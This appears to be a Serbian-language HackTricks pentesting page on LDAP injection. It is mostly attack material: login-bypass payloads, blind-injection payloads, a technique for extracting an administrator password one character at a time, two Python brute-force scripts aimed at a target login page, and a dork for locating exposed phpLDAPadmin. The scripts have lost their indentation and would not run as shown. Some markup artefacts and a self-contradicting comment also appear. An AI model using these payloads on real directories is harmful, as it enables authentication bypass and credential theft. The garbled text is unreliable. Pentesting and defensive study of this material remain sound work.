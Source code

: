 # LDAP Injection

## LDAP Injection

{{#include ../banners/hacktricks-training.md}}

## LDAP Injection

### **LDAP**

**Ako želite da saznate šta je LDAP, posetite sledeću stranicu:**

{{#ref}}
../network-services-pentesting/pentesting-ldap.md
{{#endref}}

**LDAP Injection** je napad koji cilja web aplikacije koje konstruiraju LDAP izjave iz korisničkog unosa. Do njega dolazi kada aplikacija **ne uspe da pravilno sanitizuje** unos, omogućavajući napadačima da **manipulišu LDAP izjavama** putem lokalnog proksija, što može dovesti do neovlašćenog pristupa ili manipulacije podacima.

{% file src="../images/EN-Blackhat-Europe-2008-LDAP-Injection-Blind-LDAP-Injection.pdf" %}

**Filter** = ( filtercomp )\
**Filtercomp** = and / or / not / item\
**And** = & filterlist\
**Or** = |filterlist\
**Not** = ! filter\
**Filterlist** = 1\*filter\
**Item**= simple / present / substring\
**Simple** = attr filtertype assertionvalue\
**Filtertype** = _'=' / '\~=' / '>=' / '<='_\
**Present** = attr = \*\
**Substring** = attr ”=” \[initial] \* \[final]\
**Initial** = assertionvalue\
**Final** = assertionvalue\
&#xNAN;**(&)** = Absolute TRUE\
&#xNAN;**(|)** = Absolute FALSE

Na primer:\
`(&(!(objectClass=Impresoras))(uid=s*))`\
`(&(objectClass=user)(uid=*))`

Možete pristupiti bazi podataka, a ona može sadržati informacije različitih tipova.

**OpenLDAP**: Ako stignu 2 filtera, izvršava se samo prvi.\
**ADAM ili Microsoft LDS**: Sa 2 filtera javlja se greška.\
**SunOne Directory Server 5.0**: Izvršava oba filtera.

**Veoma je važno poslati filter sa ispravnom sintaksom ili će se javiti greška. Bolje je poslati samo 1 filter.**

Filter mora početi sa: `&` ili `|`\
Primer: `(&(directory=val1)(folder=public))`

`(&(objectClass=VALUE1)(type=Epson*))`\
`VALUE1 = *)(ObjectClass=*))(&(objectClass=void`

Zatim: `(&(objectClass=`**`*)(ObjectClass=*))`** će biti prvi filter (onaj koji se izvršava).

### Login Bypass

LDAP podržava nekoliko formata za čuvanje lozinke: clear, md5, smd5, sh1, sha, crypt. Dakle, može se desiti da bez obzira na to šta unesete u lozinku, ona bude hash-ovana.
```bash
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```

```bash
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```

```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

```bash
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```

```bash
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```

```bash
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```

```bash
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
```

```bash
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```

```bash
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```
#### Liste

- [LDAP_FUZZ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP_FUZZ.txt)
- [LDAP Atributi](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP_attributes.txt)
- [LDAP PosixAccount atributi](https://tldp.org/HOWTO/archived/LDAP-Implementation-HOWTO/schemas.html)

### Slepa LDAP Injekcija

Možete naterati False ili True odgovore da proverite da li se vraćaju podaci i potvrdite moguću Slepu LDAP Injekciju:
```bash
#This will result on True, so some information will be shown
Payload: *)(objectClass=*))(&objectClass=void
Final query: (&(objectClass= *)(objectClass=*))(&objectClass=void )(type=Pepi*))
```

```bash
#This will result on True, so no information will be returned or shown
Payload: void)(objectClass=void))(&objectClass=void
Final query: (&(objectClass= void)(objectClass=void))(&objectClass=void )(type=Pepi*))
```
#### Dump podaci

Možete iterirati preko ascii slova, cifara i simbola:
```bash
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```
### Scripts

#### **Otkrivanje validnih LDAP polja**

LDAP objekti **sadrže po defaultu nekoliko atributa** koji se mogu koristiti za **čuvanje informacija**. Možete pokušati da **brute-force-ujete sve njih kako biste izvukli te informacije.** Možete pronaći listu [**default LDAP atributa ovde**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP_attributes.txt).
```python
#!/usr/bin/python3
import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
value = ""
finish = False
while not finish:
for char in alphabet: #In each possition test each possible printable char
query = f"*)({attribute}={value}{char}*"
data = {'login':query, 'password':'bla'}
r = requests.post(url, data=data, proxies=proxy)
sys.stdout.write(f"\r{attribute}: {value}{char}")
#sleep(0.5) #Avoid brute-force bans
if "Cannot login" in r.text:
value += str(char)
break

if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
finish = True
print()
```
#### **Specijalna Slepa LDAP Injekcija (bez "\*")**
```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
print("[i] Looking for number " + str(i))
for char in alphabet:
r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
if ("TRUE CONDITION" in r.text):
flag += char
print("[+] Flag: " + flag)
break
```
### Google Dorks
```bash
intitle:"phpLDAPadmin" inurl:cmd.php
```
### Više Payload-a

{{#ref}}
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection
{{#endref}}

{{#include ../banners/hacktricks-training.md}}
